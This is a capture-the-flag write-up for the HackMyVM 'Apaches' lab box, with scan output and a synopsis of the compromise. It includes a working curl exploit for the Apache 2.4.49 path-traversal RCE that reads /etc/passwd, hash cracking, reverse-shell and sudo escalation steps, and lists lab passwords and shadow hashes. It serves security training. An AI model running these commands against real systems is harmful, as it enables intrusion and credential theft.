





# BOX NAME: BOX NAME

**LINK**: https://downloads.hackmyvm.eu/apaches.zip

<details open="open"><summary><ins>SUMMARY</ins></summary>

```
Remote Enumeration:
        
        
        

    Fuzzing:
        
        

    Initial Access:
        
        

    Local Enumeration:
        
        

    Loot:
        

    Proofs:
        

This summary outlines the key steps and findings in the penetration test of the CTF box named Apaches.
```


</details>

# REMOTE ENUMERATION:

<ins>TARGET</ins>

```bash
[+] IP:         10.77.0.201
[+] URL:        http://apaches.hmv
[+] FQDN:         
[+] DOMAIN:
```

<details open="open"><summary><ins>SCANNING</ins></summary>

**nmap-scan**

```bash
└─$ sudo nmap -sV -sS -A $IP -oA nmap/apaches
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-17 09:15 CEST
Nmap scan report for 10.77.0.201
Host is up (0.00078s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 bc:95:83:6e:c4:62:38:b5:a9:94:0c:14:a3:bf:57:34 (RSA)
|   256 07:fa:46:1a:ca:f3:dc:08:2f:72:8c:e2:f2:2e:32:e5 (ECDSA)
|_  256 46:ff:72:d5:67:c5:1f:87:b1:35:84:29:f3:ad:e8:3a (ED25519)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
|_http-server-header: Apache/2.4.49 (Unix)
|_http-title: Apaches
| http-robots.txt: 1 disallowed entry 
|_/
| http-methods: 
|_  Potentially risky methods: TRACE
MAC Address: 08:00:27:BC:C9:CF (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 5.X
OS CPE: cpe:/o:linux:linux_kernel:5
OS details: Linux 5.0 - 5.5
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.78 ms 10.77.0.201

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.18 seconds
```

**whatweb-scan**

```bash
.

```

**nikto-scan**

```bash
─$ nikto -h $IP -output recon/nikto.html
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          10.77.0.201
+ Target Hostname:    10.77.0.201
+ Target Port:        80
+ Start Time:         2024-07-17 09:25:06 (GMT2)
---------------------------------------------------------------------------
+ Server: Apache/2.4.49 (Unix)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ /images: IP address found in the 'location' header. The IP is "127.0.1.1". See: https://portswigger.net/kb/issues/00600300_private-ip-addresses-disclosed
+ /images: The web server may reveal its internal or real IP in the Location header via a request to with HTTP/1.0. The value is "127.0.1.1". See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2000-0649
+ Apache/2.4.49 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: POST, OPTIONS, HEAD, GET, TRACE .
+ /: HTTP TRACE method is active which suggests the host is vulnerable to XST. See: https://owasp.org/www-community/attacks/Cross_Site_Tracing
+ /css/: Directory indexing found.
+ /css/: This might be interesting.
+ /images/: Directory indexing found.
+ 8909 requests: 0 error(s) and 10 item(s) reported on remote host
+ End Time:           2024-07-17 09:25:18 (GMT2) (12 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested  
```

**CMS (content management system)**

```
.

```

**enum4linux**

```
.

```

**Other services**

DNS, SSH, FTP, TELNET, MYSQL, PROXY, SMTP, POP, IMAP, SMTP

```
.

```
</details>
<details open="open"><summary><ins>FUZZING</ins></summary>

**WEBSERVER**

```bash
/robots.txt

User-agent: *
Disallow: /

# IOKAnFlvdSBrbm93IHlvdXIgcGF0aCwgY2hpbGQsIG5vdyBmb2xsb3cgaXQu4oCdCi0tIFBvY2Fob250YXMg
 “You know your path, child, now follow it.”
-- Pocahontas
```

# SYNOPSIS

> The apache webserver is vunerable to **cve-2021-41773-cve-2021-42013 since we found a CGI-BIN and the apache version seems to be 2.49**
> 
> \*\*─$ curl -v '[http://10.77.0.201/cgi-bin/../../../../../../../../../bin/bash](http://10.77.0.201/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash)' -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain" \*\*  
> so we grab the passwd file and shadow file. We unshadow it. Try to crack some hashes with rockyou and boom. We score.
> 
> $6$KzBC2ThBhmbVBy0J$eZSVdFLsAfd8IsbcAaBzHp8DzKXETPUH9FKsnlivIFSCvs0UBz1zsh9OfPmKcX5VaP7.Cy3r1r5msibslk0Sd.:iamtheone  
> We use this cracked hash to login with SSH as squanto.

> We check the box and find write access to a backup-script running as the sacagawea user. We edit it and catch a revshell to sacagawea user.



> Find creds in DB-files of sacagaweas development folder.



> levereage a gtfobin of nano to get shell to geronimo user.







> Stabalize that shell and find geronimo can sudo as root without password. Bingo!

</details>

# ACTIVE DIRECTORY:

<details open="open"><summary><ins>STRATEGY/METHODOLOGY</ins></summary>

**N/A**


</details>

# LOCAL ENUMERATION:

<details open="open"><summary><ins>FILES OF INTEREST</ins></summary>

**FILES**:

```
.

```

**SUID's**:

```
.

```

**SGID's**:

```
.

```

**OTHERS**:

```
.

```
</details>

# LOOT

<details open="open"><summary><ins>USEFUL INFORMATION:</ins></summary>

**Kernel Info:**  
*file /bin/bash ; echo -e " \\n" && lsb_release -a ; echo -e "\\n" && uname -a*

```bash
Ubuntu 20.04 LTS (GNU/Linux 5.4.0-128-generic x86_64)


/bin/bash: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=2a9f157890930ced4c3ad0e74fc1b1b84aad71e6, for GNU/Linux 3.2.0, stripped
 

No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 20.04 LTS
Release:        20.04
Codename:       focal


Linux apaches 5.4.0-128-generic #144-Ubuntu SMP Tue Sep 20 11:00:04 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
```

```bash
.

```
</details>
<details open="open"><summary><ins>CREDS:</ins></summary>

**username:password**

```bash
squanto:iamtheone
pocahontas:y2U1@8Ie&OHwd^Ww3uAl
sacagawea:
```

**hashes**

```bash
geronimo:$6$Ms03aNp5hRoOuZpM$CoHMkl9rgA0jZR2D9FfGJms9dR8OZw5j0gimH0V14DJ/F2Xp2.Mun4ESEdoNMoPC5ioRuOCXgakCB2snc6yiw0:19275:0:99999:7:::
lxd:!:19265::::::
squanto:$6$KzBC2ThBhmbVBy0J$eZSVdFLsAfd8IsbcAaBzHp8DzKXETPUH9FKsnlivIFSCvs0UBz1zsh9OfPmKcX5VaP7.Cy3r1r5msibslk0Sd.:19274:0:99999:7:::
sacagawea:$6$7jhI/21/BZR5KyY6$ry9zrhuggELLYnGkMtUi0UHBdDDaOiIgSB9y9od/73Qxk/nQOSzJNo3VKzZYS8pnluVYkXhVvghOzNCPBx79T1:19274:0:99999:7:::
pocahontas:$6$ecLWB6Q6bVJrGFu8$KgkvUSbQzXB6v3aJuE9NMwVvs2a53APkgzSxPq.DWfgIYKbzN0svWT4VDYm/l2ku7lMGJ8dxKi1fGphRx1tO8/:19274:0:99999:7:::


"geronimo" => "12u7D9@4IA9uBO4pX9#6jZ3456",
"pocahontas" => "y2U1@8Ie&OHwd^Ww3uAl",
"squanto" => "4Rl3^K8WDG@sG24Hq@ih",
"sacagawea" => "cU21X8&uGswgYsL!raXC"
```


</details>

# PROOFS

<details open="open"><summary><ins>INITAL ACCESS</ins></summary>

```bash
CODE:
Apache webserver vulnerable:
curl -v 'http://10.77.0.201/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain"


PAYLOAD:
/cgi-bin/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/bin/bash' -d 'echo Content-Type: text/plain; echo; cat /etc/passwd' -H "Content-Type: text/plain"
ssh squanto@$IP: password = iamtheone
```


</details><details open="open"><summary><ins>PIVOTING OR PRIVILEGE ESCALATION</ins></summary>

```bash
ssh into squanto ->
cath a revshell to sacagawea ->
sudo with found password in developer items to pocahontas ->
manipulate nano with sudo privs to geronomi ->
geronimo allowed to use sudo without password ->
You are root.
```


</details><details open="open"><summary><ins>FLAGS</ins></summary>

```
squanto@apaches:~$ cat user.txt 
  ______ _                      __                               _        
 |  ____| |                    / _|                             | |       
 | |__  | | __ _  __ _    ___ | |_   ___  __ _ _   _  __ _ _ __ | |_ ___  
 |  __| | |/ _` |/ _` |  / _ \|  _| / __|/ _` | | | |/ _` | '_ \| __/ _ \ 
 | |    | | (_| | (_| | | (_) | |   \__ \ (_| | |_| | (_| | | | | || (_) |
 |_|    |_|\__,_|\__, |  \___/|_|   |___/\__, |\__,_|\__,_|_| |_|\__\___/ 
                  __/ |                     | |                           
                 |___/                      |_|                           
@@@@@@@@&@&@@&&@&&&&&&&&&&&&&&&&&&&&&&%&%#%%&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@&@&@&@&@&&&&&&&&&&&&&&&&&&&&&&&&&&#%%%%&&%&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&%#(%&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@&&&@&@&&&&&&&&&&&&&&&&&&&&&&&&&&#((#%#&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@&@&&&&&&&&&&&&&&&&&&&&&&&%((//..(*,/,,*.%&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@&@@&&&&&&&&&&&&&&&&&&&&&&&##%#(/&&&&&%#//,    &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@@@&&&&&&&&&&&&&&&&&&((((*&&&%&%%#%((/((  ./&&&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@&@&&&&&&&&&&&&&&&&%(((//&&&&&#/#(/*//(/(  ..&&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@@@&&&&&&&&&&&&&&&&#(//%%&&*../%(,.*. .(/(  ..&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@&&&&&&&@&&&&&&&&&&//*(&&%%#/#%&&//**(//(//  .&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@@@@@@&@&&&&&&&&&&(,,*&@&&&&&%%&&(/,((((//(   /&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@&&&&&&&&&&&&&&&&&(.  ##%&&/&&(#*,. /,/////   &&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@@&&&&&&&&&&&&&&&&&,  %##%%&&&/**.,**//(///,#&&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@@@&&@&&&&&&&&&&&&&&(,/%%%&&&&&%((**//*/(/  /&&&&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@@&&@@@&@&&&&&&&&&&&&%*,.#%#&&&#*////**.     .%&&&&&&&&&&&&&&&&&&&@&&&&&
@@@@@@@@@@@&@&@&@&&&&&&&&&&%#&** /%#/*,(..,..       ...*&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@@@&@@@&@@&&&&&&&&@@&#/.**%&%##(*,.    ..   .,//&&&&&&&&&&&&&&&&&&&&&&&&
@@@@@@@@@&@&@&@&@@&&@@&&@&&&%( %%(&%&%#((%%**@*,.,.,,//,&&&&&&@&&@&&&&&&&&&&&&&&

Well done!

```

```
sacagawea@apaches:~$ cat user.txt 
                                                                                  
                                                                                                                       
  _____ _                      __                                                               
 |  ___| | __ _  __ _    ___  / _|  ___  __ _  ___ __ _  __ _  __ ___      _____  __ _          
 | |_  | |/ _` |/ _` |  / _ \| |_  / __|/ _` |/ __/ _` |/ _` |/ _` \ \ /\ / / _ \/ _` |         
 |  _| | | (_| | (_| | | (_) |  _| \__ \ (_| | (_| (_| | (_| | (_| |\ V  V /  __/ (_| |         
 |_|   |_|\__,_|\__, |  \___/|_|   |___/\__,_|\___\__,_|\__, |\__,_| \_/\_/ \___|\__,_|         
                |___/                                   |___/                                                       
                                                                                                                    
                                                                                                                                                 
                                                                                                                                                 
                                                                                                                                                 
                                                                                                                                                                                                 
****(************************************,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,.*,,,,,,                                                                                                       
**/*******************/****************.,.,*,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,/,,,,,,                                                                                                       
***************************************.,%/*,,,,,,,,,,*,,,,,,,,,,,,,,,,,,,,,,,,,,,,,%,,,,,                                                                                                       
//////////////////////***********************,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,/%,,,,                                                                                                       
////////////////////////////****************,,,,,,,,,*,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,(,,,                                                                                                       
/////////((((((((((((((////(//////*************,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,/,,                                                                                                       
////(((((((((((((((((((((((((///////**********,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,/,                                                                                                       
//((((((((((###########((((((((/////(*************,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,*,,                                                                                                       
(((((((((####################(((((((/*,,,,,,,,//,,,,//,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,                                                                                                       
(((((((((%########%###%######((((,,,,,,,,,,,*(/(,,,**/((/,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,                                                                                                       
((((((########%%%%%%%%%%%%%###,,,,,,,,,,,,,,*((/,,,,*((((((*,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,                                                                                                       
((((((########%%%%%%%%%%%%%%,,,,,,,,,,,,,,**/(//,,,,//(((/(//*,,,,,,,,,,,,,,,,,,,,,,,,,,,,                                                                                                       
(((((########%%%%%%%%%%%%%#,,,,,,,,,,,,,,,*((/**,,*///(((//*****,,,,*,,,,,*,,,,,,,,,,,,,,,                                                                                                       
((((########%%%%%%%%%%%%%(,,,,,,,,,,,,,,*,****/((**//((///***,,,,,,,,,,,,,,,,,,,,,,,,,,,,,                                                                                                       
(((#######%%%%%%%%%&&%%%%,,,,,,,,,,,**//(((#((##%#((((((/*,,,,,,,,,,,**,,,,,,,,,,,,,,,,,,,
##########%%%%%%%%%%&%%%,,,,,,,,,*,***((########%%%%%(/*/*(,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,*
##########%%%%%%&%&&&&&%,,,,,,*******//((######%%%%%%%%#(,,*/,,,,,,,,,,*,,,,,,,,,,,,,,,,,,
###########%%%%%&&&&&&%*,,,,*****////(((######%%%%%%%%%%%#/,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,,
#######%%%%%%%%&&&&&&&%,*,,*******,,**//((#####%%%%%%%%%%##/,,,,,,,,,,,,,*,,,,,,,,,,,,,,,,
###%%%%%%%%%%%%&&&&&&&&(,,,*******/((/*/*//(######(((#%%%###,,,,,,,,,,,,,,,,,,,,,,,,,,/,,,
###%%%%%%%%%%%%&&&&&&&&,,,***//*///,.(,,**(#%%%#(*,**(#%%%%#,*#/,,,,,,,,,,,,,,,,,,,,,,,,,,
###%%%%%%%%%%%&%&&&&&&,,***///(#######(**/#%&&%%#%,/&##(%%%#(##****,,,,,,,,,,,,,*,,,,,,,,,
##%%%%%%%%%%%&&&&&&&%/,,,,*///(#####((///(%&%%%%%%%%%%%%&%%###/,*,,,,,,,,,,,,,,,,,,,,,,,,,
#%%%%%%%%%%%%&&&&&&&%(/,,,**////(((((***(#&&%%%%%%%%%%%%%%%%%#/***,,,,,,,,,,,,,,,,,,,,,,,,
##%%%%%%%%%%%%%&&&&&%#(//***////((((***//#%&&%%%%%%%%%%%%%(%#,*/**,,,,,,,,,,,,,,,,,,,,,,,,
###%%%%%%%%%%%%%&%%#(#((/*,//////(/******/##//%%%%%%%%%%%%%*,,,/***,,,,,,,,,,,,,,,,,,,,,,,
####%%%%%%%%%%%%%%%*((//(,#///////////(#%#%%%%&&%%%%%%%%#%%%,,*/*,,,,,,,,,,,,,,,,,,,,,,,,,
#####%%%%%%%%%&%%%.//#(/,.%%/////*,,,*,**((#%%%%%%%%%%%(%%/%,,*(*,,,,,,,,,,,,,,,,,,,,,,,,,
#####%%%%%%%%%&%,*(###(*%%%&&#//*****/(####%%%%%%%%%%%/,%#,,,,,/*,,,,,,,,,,,,,,,,*,,,,,,,,
######%%%%%%%%&((####(*#%%%#*,,,******//*((###%%%%%%#*,/%%/,,,,/,,,,,,,,,,,,,,,,,,,,,,,,,,
######%%%%%%%%(,(#//,*,%%%#*,*,.,,***/((#########.//#/(%%%((,,,,*,,,,,,,,,,,,,,,,,,,,,,,,,
#######%%%%%%,,##(%#/%&%%/*,*,,.,*###(**///(,,,,,*((#/%%&(,,,,,,(###%&&&,*,,,,,,,,,,,,,,,,
########%%%%,/#%#%%%,(//*,,**,..,,,,,,,,,,/%,,,,/#%##&%&#,,,,,**/*/%#%(&%#**,,,,,,,,,,,,,,
#########(/,,*,/%%&,,*,**,*,/,,,,,,,,,,*/,##**,#*%#%%%&&#/(,,.,*/***/*(%##%%/(%//%#*,,,,,,
######(,,,,,,####%,,*///,/*,,,,,,,*,,,##%***,(/#*#((&&&&&/*,,,,,,,***,%%//(%%%%%%%(#&,*,,*
(###/,,,,,,,##%%&.,*,#///(,(/,,,,,*,***//**./*##(#(#%%%%&****,,*,,,**,#%%***//(%(%/%#,,,,*
###*,,,,,,,#%#&%#,*,#(#/%#((#&,*****///,&%(%(%%#,#*&&&&&*/*/*,,.,,,**///*,*,**///%(%/%/*,,
((,,,,,.,,/**/%%,*,##%(%%/(%&*,,**//(/*,,%*%%%/#(#%&&&(&***,,,,,.,**////*,,,**///,##(#%%%%
/,,.,,,,,##(%&,,,,#/%%/%/(#%*,,,**///*,%(.%#%%%,/#%(&&#&,*/*,,,..,,*////*,,,,/,%%*//%%(///
.,,...,,,#(%%(,**(/%%#%%#%%%,,**///*,%%,.#*/%#,*#((&(###,/,,.,...*,.,///*,,,*/,(%,*(###%(/
,,....,,/#(%%,(/(##&%#%*/%*%.,*///*%#(.#%.%/%%*(&&,&%%#*,,,,,,,.,/,..,/,#%/,**,,,,*/###%##
.,,,,,,,(*/(#/(((%&*####/%#%(,//,,%%&*&(#%,/#//%%%&&%&%,*,,.,,,,.*/.,,/*,,,,//,,,.#%(%%%%&
*(,,,,*(%(#/(/,(#%.%#%/##%,&,*/*%%/%&.%(%/%%#,##((##%&#,/,/,.,*,/,/,.,*/*,,*/,,,,,#%&%%%%&
.,,*,,###%#(#*#(%&&#%%#(%&,%,*%&*%&,,#(%,%(%//&(&&&%%%&*(,*,,,,,*,*/.,**,,,*/.,,,*///%%%#&
,,,,,,/#%%*(,(##%//#(,/,(**/#///(/((%*%%/%*%*#&&&%&&,%/,#,,(/.,,.,,/,,,*,*****,,*///#%%%%%
,,,,/#*#(###%%#&/&#%(%/%&,%/,%&#%,%%*&&*%,%**(%&&&&&,&(,#,*,,,,,,*(*/,,,%%/*,*,*//((#%%%%%
,/,#(#%#%#%%#%&%&#%%%&%&,#&,%&(%&*%&&&/%&%%/%%(%##%%&&*%&,,/*,,*/,***,,(#%(,,,*/(((,%%%(%&
,.((%%#%#%%#%%&%&%&%&%&&%&%(&%%&,%&/%&%&(%%%&(%&&&&/&&(&%/(/(*,*(%,//,,,*,,,%%*(((,#%%&#&&
,*/#%%%#%##%#%#&%&#&#&&(&&,&&%&&%&%&&(&%&&*&&&&&&&&&&(%&/#///,,,/%%(/*,*,,/%%&(((////%%/%%
(/%(###%(%%#&#%#&&&&%&/&&(&&#%&(&&%&%&&%%#%(&&&&&&%&&%&&%&(/*(,*/(*//*,,,,,,*(((,#&/*%%%##
#%((#%%#%#%%%%&%&%&%&&%&&(&&%&%%&#&&%&#&&/&&#%%%&&&&%&&%&&#(/((,,**(/*,,,,**,#%,,%%//%%%%#
%###%#%%#%#%#%#%(&%&&(&&,%&%&&%&&%&#&&%&%%%&%&&&&&&&%&&%&&%(/*,***/((/,,,,*,,#%%,**%%%%&%#
(####%#%%%%#%%%&%&%&#%%%%&%%&(&&%&&%&(%%(&&&&&&&&&&%%&%%&%&&*(#/(///(&%%,/,.#%*%%*,,,/&&##
(/(##(%/%(%#&(&/%(&&#&&*%&%&&%&#&&#&&%%##%#%%&&&%&&%&&%&&%&&///*,,/,(%,,,*,,(&****,,,*%&#*
##%/%##%(%/%(&#%&%&*%&*%&(%&*&&%&%%&*%%*%%&&&%&&&&&&&#&&#&&*******,,,(,,,**//***,,,,,*%%#*
,,,,****(&#&/&/&*%#%&/*&&#&#%&,%&/&%/%%#&&%&&&&(&&(&&%&&%&&,,/(,**,,,,,,*****,,,,,,,,**%**
(%%(%/%*%,&,%(%/(/**#/#&*&&*&##&*%&,%%&&&&&&&&&#&%%&(%&(&&,,,*,,*,,,,,,,****,,,,,,,,,,(#*,


You are on fire!!

Flag: FlagsNeverQuitNeitherShouldYou

```

```
pocahontas@apaches:~$ cat user.txt
  _____ _                      __                         _                 _
 |  ___| | __ _  __ _    ___  / _|  _ __   ___   ___ __ _| |__   ___  _ __ | |_ __ _ ___
 | |_  | |/ _` |/ _` |  / _ \| |_  | '_ \ / _ \ / __/ _` | '_ \ / _ \| '_ \| __/ _` / __|
 |  _| | | (_| | (_| | | (_) |  _| | |_) | (_) | (_| (_| | | | | (_) | | | | || (_| \__ \
 |_|   |_|\__,_|\__, |  \___/|_|   | .__/ \___/ \___\__,_|_| |_|\___/|_| |_|\__\__,_|___/
                |___/              |_|

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@&*@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@%,........@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@@@@%,,.*//////////.@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@@@/,.  .*(//***//////.@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@%*.  , (////. ////////.@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@@,....#(/////*///*////..@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@@%./* (%%(///////////////*@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@#. *///##%#(//////////////@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@* , #**/####(/*///**,*,//.@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@#. . *../###%((////,***,//@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@(. ..,..(/%%%##(/////////%@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@.,.../.,,#///////*//*,,...@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@%.*.,.@*.,%#//////////,......@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@%.,..... ,*#(/////////,.,...... @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@......#,,,,(*////////,,.,.........@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@ ..,(#*#/*///////////*%%#/........../@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@@@@@@/(&#%//////////////#%&###((**///,,..,...,.@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@@/#(//#@&&&&%###(#%(&##########(#*/(///(#(.,.,,,,,(,,%@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@(%#/////////((%&%&#///*////////**%///////((,,,,,,,,,,,@%*,*&@@@@@@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@%%(*//////////%%/((/////##(*(((%//////////((*.,,,,,*******/@#*,,%@@@@@@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@&%#/*%*%&*////*/&///#(/(.,////(.#////////////,,,,,*,**,*,*******%@%***%@@@@@@@@@@@@@@@@@
@@@@@@@@@@@@@%#**,.%/*#/%////#(&*/**(#*%#,#*(//////////*//..,,,,/(,,**,****,**,,(@@%,,@@@@@@@@@@@@@@
@@@@@@@@@@@@@//*(*&&#*/%//(,.(**(&&,%(&,%##((,/////*/*//*/,...,/,,*,#,,,*,,,,,,,,,,,#@@@/@@@@@@@@@@@
@@@@@@@@@@@@@*&&%@&*##&*///.(&/( &* &&%%#((((((,/*/////*///,. ...,.,(,.(,,,,,,,,,,,,,,,,@@@@@@@@@@@@
@@@@@@@@@@@@@/%&&&&&&,@*%%@#,/*&&%%%##(#/////@/(..*/////////.. .,....,..,..........,.....,@@@@@@@@@@
@@@@@@@@@@@@@#*@@&&&&&&&&&&%%%%####((((((///@((.  ,/////*///,.. .......#....#...&...,. ...@@@@@@@@@@
@@@@@@@@@@@@@%#/&%%############(((((((/////%(/......(//////// ... ...,........#...#., ....%@@@@@@@@@
@@@@@@@@@@@@@#%(//(#####(#######((((((/(////*...,....#///////*. ......*........ @...*,....(@@@@@@@@@
@@@@@@@@@@@@@##////(###########(#(((/(///((*....@...  #//////*.........,...  . ..#@.. /# .(@@@@@@@@@
@@@@@@@@@@@@@##/(((//%#######(###((((//(@/*...  %.... .#/////// ........ ... ......@@...@(&@@@@@@@@@
@@@@@@@@//**@%(////%((%##########(((/////* ........./...//////*,. ..,... .... .. .../@*..&@@@@@@@@@@
@@@@@@@*@@@@@*,//(/,//,.&########(((//(///......  .. ....*//////.........,...... ....*@@(@@@@@@@@@@@
@@@@@@@@@@@@/#////%%#&/,*@###(####(*////*((.......... ...*#//////.......... ..*.. .....@@@@@@@@@@@@@
